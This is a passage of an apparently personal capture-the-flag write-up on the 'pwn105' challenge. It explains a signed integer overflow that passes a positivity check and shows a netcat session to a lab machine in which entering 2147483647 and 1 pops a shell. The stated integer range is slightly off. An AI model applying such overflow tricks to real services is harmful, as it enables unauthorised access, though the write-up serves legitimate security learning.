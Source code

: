 ![pwn105.png](https://raw.githubusercontent.com/VOiD-Ayush/The_Awesome_Blog/main/all_collections/_posts/images/pwn101/pwn105.png)


So first it takes two inputs then check if the are +ve or not if they are not it tells you nice try else it will sum both the values and if the sum is less than 0 it pops a shell.

Simple integer overflow can be done here as we know interger has range (-2,147,483,647 to 2,147,483,647) if we give the highest value and add something to it, the sum will go to the opposite side that is -ve one.

lets try it out, it we enter 2147483647 and add 1 it theoretically it will become -2147483648

```bash
nc 10.10.145.112 9005                        
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
```